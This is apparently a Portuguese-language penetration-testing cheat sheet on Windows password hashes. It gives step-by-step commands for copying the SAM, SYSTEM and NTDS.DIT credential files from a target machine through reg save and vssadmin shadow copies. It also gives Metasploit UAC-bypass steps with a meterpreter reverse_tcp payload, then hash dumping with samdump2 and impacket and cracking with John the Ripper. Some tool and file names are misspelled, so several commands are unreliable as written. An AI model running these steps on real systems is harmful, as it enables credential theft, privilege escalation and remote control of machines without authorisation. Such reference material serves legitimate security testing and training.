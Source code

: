 # Windows Hashes

## Padrão de Hash do Windows

``<Username>:<User ID>:<LM hash>:<NT hash>:<Comment>:<Home Dir>:``

LM Hash vazio: aad3b435b51404eeaad3b435b51404ee

## Obtendo hashes de senhas do Windows

Nos sistemas Windows são utilizados até 3 arquivos para armazenamento e manipulação dos usuários e senhas dependendo da versão do sistema operacional. Os arquivos são:

**SAM - Security Account Manager** *(Windows XP/Vista/7/8/10)*
- Armazena as contas de usuários
- %SystemRoot/system32/config/sam

**NTDS.DIT** *(Windows Server)*
- Armazena os dados do AD incluindo as contas de usuários
- %SystemRoot/ntds/ntds.dit

**SYSTEM** *(Windows Server/XP/Vista/7/8/10)*
- Arquivo necessário para decriptar o SAM/NTDS.DIT
- %SystemRoot/system32/config/system

Todos esses arquivos são bloqueados pelo sistema enquanto o mesmo estiver em execução, abaixo algumas técnicas para burlar essa proteção.

**Windows XP**

Essa técnica funciona apenas em versões antigas do Windows. Verifique se existe o diretório *%SystemRoot%/Windows/repair* onde existe uma cópia do sistema operacional e faça a busca pelos arquivos **sam** e **system**.

A desvantagem de utilizar os arquivos da pasta *repair* é que pode ocorrer do arquivo sam estar desatualizado, não retornando todos os usuários atuais do sistema.

**Windows XP/Vista/7/8/10**

Para baixar os arquivos **sam** e **system** através do registro do Windows, utilize os *comandos abaixo direto no terminal da máquina alvo:

``reg save hklm\sam samOK``

``reg save hklm\system systemOK``

Esse método consegue retornar o arquivo sam com todos os usuários atuais do sistema.

**Necessário permissões para executar comandos como administrador*

**Windows Server/7/8/10**

Em versões mais modernas do Windows assim como em versões do Windows Server, podemos utilizar a ferramenta ``vssadmin`` para criar uma cópia (shadow) do sistema operacional e fazer o download dos arquivos **sam**, **ntds.dit** e **system**.

Verificar os volumes do sistema operacional
``vssadmin list volumes``

Montar uma cópia do volume alvo
``vssadmin create shadow /for=c:``

Copiar os arquivos da cópia para o disco local
``copy \\?\VOLUME_COPIA\windows\ntds\ntds.nit C:\ntds.nit``

``copy \\?\VOLUME_COPIA\windows\system32\config\sam C:\sam``

``copy \\?\VOLUME_COPIA\windows\system32\config\system C:\system``

## Bypass UAC (Executar como Administrador)

**Enviar solicitação ao usuário - Meterpreter**

Inicie uma sessão com a máquina alvo através do metasploit e deixe em segundo plano com o comando ``background``. Para visualizar as sessões ativas utilize ``sessions``.

Selecione o módulo **exploit/windows/local/ask** e com o comando ``set SESSION 1`` defina que o módulo será executado na sessão que está em background.

Execute o módulo com o comando ``run``, dessa forma será enviada uma mensagem para a máquina alvo solicitando a execução como administrador.

**Nova sessão como administrador - Meterpreter**

Nessa técnica vamos utilizar dois módulos, o primeiro é um exploit que irá realizar o bypass no UAC e o segundo é o payload que será executado para nos retornar outra shell, mas dessa vez como administrador.

Inicie uma sessão com a máquina alvo através do metasploit e deixe em segundo plano com o comando ``background``. Para visualizar as sessões ativas utilize ``sessions``.

Selecione o módulo **exploit/windows/local/bypassuac_fodhelper**. Faça a configuração do target de acordo com o alvo e selecione a sessão que está em background com o comando ``set SESSION 1``.

Agora definimos o payload com ``set payload windows/x64/meterpreter/reverse_tcp`` e faça a configuração padrão.

Execute o comando ``exploit`` e aguarde o inicio de uma nova sessão com os privilégios de administrador.

## Visualizar Hashes

Para visualizar os hashes que estão nos arquivos sam e ntds.dit utilize uma das opções:

**Windows 2k/NT/XP/Vista**

``samdump2 SYSTEM SAM``

**Windows 2k/NT/XP/Vista/7/8/10/Server**

``impacket-secretdump -sam SAM -system SYSTEM LOCAL``

**Windows Server**

``impacket-secretdump -ntds ntds.dit -system SYSTEM LOCAL``

## Quebra de Hashes

Para realizar a quebra dos hashes podemos utilizar a ferramenta john The Ripper.

**Quebra de Hash sem LM** *(aad3b435b51404eeaad3b435b51404ee)***:**
``jhon --format=nt hash``

**Quebra de Hash com LM:**
``jhon --format=lm hash``
